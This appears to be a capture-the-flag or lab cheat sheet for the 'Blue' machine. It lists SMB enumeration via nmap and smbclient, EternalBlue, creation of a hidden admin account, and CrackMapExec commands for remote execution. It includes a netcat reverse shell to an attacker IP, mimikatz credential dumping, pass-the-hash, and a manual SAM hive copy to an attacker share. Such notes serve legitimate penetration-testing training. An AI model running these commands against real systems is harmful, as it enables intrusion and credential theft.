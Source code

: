 # Blue

Easy machine with direct exploitation of SMB service via EternalBlue (easy to exploit with
metasploit)

## Advice to scan for SMB service vulnerabilities

* Looking for vulnerable service with nmap: ```nmap --script "vuln and safe" -p445 [ip]```

* Use smbclient to list shares: ```smbclient -L [ip]```

* Use smbclient to access a share without password: ```smbclient //[ip]/[sharedVolume] -N```

* Mount volume with cifs to better navigation: ```mount -t cifs //[ip]/[sharedVolume] /mnt/smb -o username=null,password=null,domain=[domain],rw```

## Create new windows user
\
* Add new user: ```net user [username] [password] /add```

* Add user to Administrators group: ```net localgroup Administrators [username] /add```

* ```cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f``` 

## Use of CrackMapExec

* Check if we have smb access: ```cme smb [ip] -u [username] -p [password]``` (should say 'Pwn3d!)

* Execute commands: ```cme smb [ip] -u [username] -p [password] -x [command]

* Get shell via netcat (share first a SMB folder): ```cme smb [ip] -u [username] -p [password] -x '\\[attackerIp]\[SMBFolder]\nc.exe [attacketIp] [port] -e cmd.exe'```

* Get passwords using mimikatz module: ```cme smb [ip] -u [username] -p [password] -M mimikatz -o COMMAND="sekurlsa::logonPasswords"```

* Get SAM hashes (possible pass the hash): ```cme smb [ip] -u [username] -p [password] --sam```

* Perform pass the hash: ```cme smb [ip] -u [username] -H [hash]```

## Manual dump of sam hashes

* Victim: ```cd C:/Windows/Temp```

* Victim: ```reg save HKLM\SAM sam.backup```

* Victim: ```reg save HKLM\SYSTEM system.backup```

* Attacker: ```smbshare SMBFOLDER [folder]```

* Victim: ```copy sam.backup \\[ip]\SMBFOLDER\sam```

* Victim: ```copy system.backup \\[ip]\SMBFOLDER\system```

* Attacker: ```pwdump.py system sam```



